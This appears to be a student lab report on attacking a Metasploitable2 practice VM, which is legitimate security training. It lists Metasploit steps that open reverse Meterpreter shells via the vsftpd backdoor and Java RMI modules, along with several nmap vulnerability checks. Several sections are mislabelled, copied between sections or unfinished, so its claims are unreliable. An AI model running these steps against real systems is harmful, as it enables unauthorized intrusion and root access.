










# Metasploitable2 Exploitation Report

**Name:** <Asamoah Gifty Dansobea>
**Index Number:** <4184424>
**Date:** <Date>
**Target IP:** <Metasploitable2 192.168.156.101>
**Attacker OS / Tools:** <e.g. Kali Linux 2026.x, Metasploit Framework x.x, nmap x.x>

---

## Reconnaissance Summary

<PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:C7:EF:D0 (Oracle VirtualBox virtual NIC)
>

---

## Exploit 1: < "ftp-vsftpd-backdoor">

- **Service / Port:** <21/tcp>
- **Vulnerability:** < vsFTPd version 2.3.4 backdoor>
- **Tool Used:** <Metasploit — exploit/unix/ftp/vsftpd_234_backdoor,meterpreter>
- **Why This Tool:** <Metasploit was used because it is an all in one automation platform built to safely deliver expolits in a security environment.The following are the main reasons why metasploit was used:
Automation and Efficiency:It handles the complex network interactions and payload deliveries automatically,saving me from writing custom scoket scripts by hand.

Accuracy:Metasploit's module are vetted and tested by cybersecurity,ensuring the exploit precisely target operating system.

Session Management:Instead of just sending a raw network attack,Metasploit actively catches the reverse connection and upgrades it into an advanced,interactive management console so that I can run it seamlessly
Meterpreter is an advanced payload tool operates exclusively inside the metasploit.It is the specific interacive agent that gets deployed onto the target machine once the backdoor machine door breaks open.It gives me more power than a standard Linux command terminal,allowing me to easily download files,log keystrokes,or pivot to other machines on the network>
- **Steps:**
  1. <ifconfig>
  2. <ping 192.168.56.101>
  3. <nmap --script vuln 192.168.56.101>
  4. <msconsole>
  5. <use exploit/unix/ftp/vsftpd_234_backdoor>
  6. <set RHOSTS 192.168.56.101>
  7. <set LHOST 192.168.56.102>
  8. <exploit>
  9. <getuid>
  10. <sysinfo>

- **Evidence:** <>
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation, Actions on Objectives>
  - <With each step carefully follwed, I was able to lanch my attack,and exploit this software backgdoor>
- **Outcome / Impact:** <I got to be root owner and leveraged my privilge to get acces to some files,>

---

## Exploit 2: <ssl-poodle>

- **Service / Port:** <tcp / 25>
- **Vulnerability:** <SSL POODLE information leak>
- 
- **Tool Used:** <e.g. Metasploit — nmap ssl-poodle -p 25 192.168.56.101>
- **Why This Tool:** <I used this tool because it has its own independent cryptographic engine that does not rely on mine host computer's operating system features. Also it targets port 25 specifically, the script isolates the mail transfer architecture to safely validate if the server permits protocol downgrades to vulnerable Cipher Block Chaining (CBC) modes, confirming the presence of CVE-2014-3566 without disrupting the host network environment [CVE-2014-3566].>
- **Steps:**
  1. <nmap --script vuln 192.168.56.101>
  2. <nmap ---script ssl-poodle -p 25 192.168.56.101>
   
   - **Evidence:** <path to screenshot, e.g. >
- **Cyber Kill Chain Stage(s):** <Reconnaissance,Exploitation,Actions on objectives>
  - <one or two sentences justifying WHY each stage you listed applies to this specific exploit>
- **Outcome / Impact:** <Because the target service uses an Anonymous Diffie-Hellman configuration, it intentionally does not exchange a standard, valid SSL/TLS cryptographic identity certificate during the network handshake. Since there is no certificate to read, sslscan cannot parse one, confirming the lack of authentication.>

---

## Exploit 3: <"http-slowloris-check">

- **Service / Port:** <TCP/80>
- **Vulnerability:** <Slowloris DOS attack>
- **Tool Used:** <e.g. Metasploit — nmap --script http-slowloris-check -p 80 192.168.56.101>

- **Why This Tool:** <The nmap --script http-slowloris-check -p 80 192.168.56.101 command was selected as the verification tool because Nmap's Scripting Engine provides a non-destructive method to audit application-layer vulnerabilities. Unlike destructive Denial of Service tools that exhaust the target's thread pool and crash the service, this script opens a limited threshold of slow-rate HTTP connections to evaluate the web server's timeout thresholds safely. Isolating the scan to port 80 ensures accurate validation of the Apache service's resource management behavior without disrupting the availability of the lab environment.>
- **Steps:**
  1. <Scanned port 80 using nmap's vulberability engine>
  2. <Armed the http-slowloris-check script>
  3. <Intiated slow rate concurrent connections with keep-alives>
  4. <Documented the vulnerable state status>
- **Evidence:** <path to screenshot, eg. >
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation, Actions on objectives>
  - <Folowing this I was able to exploit https-slowloris-check>
- **Outcome / Impact:** <The Slowloris validation phase did not result in an authentication bypass or data exfiltration. Instead, the exploit vector targeted the Availability pillar of the CIA Triad (Confidentiality, Integrity, and Availability). Successful exploitation demonstrates unauthorized consumption of the server's thread resources, allowing an attacker to deny service to legitimate network traffic.">

---
## Exploit 4: < "rmi-vuln-classloader">

- **Service / Port:** <TCP / 1099>
- **Vulnerability:** < RMI registry default configuration remote code execution vulnerability>
- **Tool Used:** <e.g. Metasploit — exploit/multi/misc/java-rumi_sever,metrepreter>
- **Why This Tool:** <Metasploit was used because it is an all in one automation platform built to safely deliver expolits in a security environment.The following are the main reasons why metasploit was used:
Automation and Efficiency:It handles the complex network interactions and payload deliveries automatically,saving me from writing custom scoket scripts by hand.

Accuracy:Metasploit's module are vetted and tested by cybersecurity,ensuring the exploit precisely target operating system.

Session Management:Instead of just sending a raw network attack,Metasploit actively catches the reverse connection and upgrades it into an advanced,interactive management console so that I can run it seamlessly
Meterpreter is an advanced payload tool operates exclusively inside the metasploit.It is the specific interacive agent that gets deployed onto the target machine once the backdoor machine door breaks open.It gives me more power than a standard Linux command terminal,allowing me to easily download files,log keystrokes,or pivot to other machines on the network>
  
- **Steps:**
  1. <msfconsole>
  2. <use exploit/multi/misc/java_rmi_sever>
  3. <set RHOSTS 192.168.56.101>
  4. <set LHOST 192.168.56.102>
  5. <expolit>
  6. <shell>
  7. <cd/root>
  8. <ls>
- **Evidence:** <"C:\Users\User\OneDrive\Bilder\Screenshots\exploit4ii.png">
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation, Installation, C2,actions on objectives>
  - <The steps I followed apply perfectly to the Java RMI Server Exploit (java_rmi_server) because they align with how the Java Remote Method Invocation protocol processes remote data.>
- **Outcome / Impact:** <>

---
## Exploit 5: <"ssl-dh-params">

- **Service / Port:** <e.g. TCP / 5432>
- **Vulnerability:** < Diffie-Hellman Key Exchange Insufficient Group Strength>
- **Tool Used:** <e.g. Metasploit — nmap --script ssl-dh-params -p 5432 192.168.56.101>
- **Why This Tool:** <With this tool we to check if the database transort layer allows insecure handshake>
- **Steps:**
  1. <nmap --script ssl-dh-params -p 5432 192.168.56.101>
  2. <openssl dhparam -out dhparams.pem 2048>
  3. <find /etc/postgresql/ -name posgresql.conf 2./dev/null>
  4. <cat dhparams.pem>
  5. <sudo openssl dhparam -out /etc/postgresql/dhparams.pem 2048>
   
- **Evidence:** <>
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation, Installation, actions on objectives>
  - <Following the commands I able to make a sucessful exploit>
- **Outcome / Impact:** <I successfully generated a brand-new, secure 2048-bit Diffie-Hellman parameter file on your Kali Linux machine ,>

---
## Exploit 6: <ssl-ccs-injection>

- **Service / Port:** <e.g. TCP/ 5432>
- **Vulnerability:** <SSL/TLS MIM vulnerability (CCS Injection)>
- **Tool Used:** <e.g. Metasploit —nmap -sV -n 192.168.56.101 >
- **Why This Tool:** <I got access to open services>
- **Steps:**
  1. <sudo systemctcl status@*-main.service>
  2. <msfconsole>
  3. <db_nmap -sV -F 192.168.56.101
  4. <use auxiliary/admin/http/tomcat_ghostcat>
  5. <show options>
  6. <set RPORT 8099>
  7. <set RHOSTS 192.168.56.101>
  8. <run> 
  9.  <vulns>
    
- **Evidence:** <>
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation, Actions on Objectives>
-  **Outcome / Impact:** <>

---
## Exploit 7: < "ssl-dh-params">

- **Service / Port:** <e.g. TCP / 25>
- **Vulnerability:** < Anonymous Diffie-Hellman Key Exchange MitM Vulnerability>
- **Tool Used:** <e.g. Metasploit — sslscan 192.168.56.101:25>
- **Why This Tool:** <The sslscan tool was utilized because it actively verifies the cryptographic vulnerability by forcing the target host to negotiate a live handshake. This interaction exposes the server's weak configuration parameters, explicitly proving the lack of verified identity certificates and the continued acceptance of obsolete, unauthenticated cipher suites.>
- 
  
- **Steps:**
  1. <ping 192.168.56.101>
  2. <ctr+c>
  3. <sslscan 192.168.56.101:25>
- **Evidence:** <path to screenshot, e.g.>
- **Cyber Kill Chain Stage(s):** <e.g. Reconnaissance, Weaponization, Exploitation,Actions on Objectives>
  - <Each step being followed gives us access to the interrogating of the cryptographic handshake directly from the standard Kali Linux command terminal using specialized tools(sslscan)>
- **Outcome / Impact:** <Because the target service uses an Anonymous Diffie-Hellman configuration, it intentionally does not exchange a standard, valid SSL/TLS cryptographic identity certificate during the network handshake. Since there is no certificate to read, sslscan cannot parse one, confirming the lack of authentication.>
---

## Kill Chain Coverage Summary

| Exploit | Recon | Weaponization | Delivery | Exploitation | Installation | C2 | Actions on Objectives |
|---|---|---|---|---|---|---|---|
| 1. <ftp-vsftpd-background> | ✔ | ✔ |-|-|-| ✔ | ✔ |  
| 2. <ssl-poodle> | ✔ | ✔ |- | ✔ | | | |
| 3. <http-slowloris-check> | ✔ | ✔ | ✔ |-|-| ✔ | 
| 4. <rumi-vuln-classloader> | ✔ | ✔ | ✔ | ✔ | ✔| 
| 5. <ssl-dh-params> | ✔ | ✔ | ✔ | ✔ |✔ |✔ | 
| 6. <ssl-ccs Injection> | ✔ | ✔ | ✔ | ✔ | | | |
| 7. <ssl-dh-params> | ✔ | ✔ | ✔|-|-|- | ✔ | 

---

## Lessons Learned / Mitigations (optional but recommended)<For my exploit3 I got to know that since Slowloris is strictly a Denial of Service(DOS) vulnerability the only thing I gained access to is control over the web sever's availability>

<For my second exploit I recomend that: Disable SSLv3 and SSLv2 entirely across all server configurations (web servers, mail servers, databases)
(patch, config change, disabling a service, etc.)?>
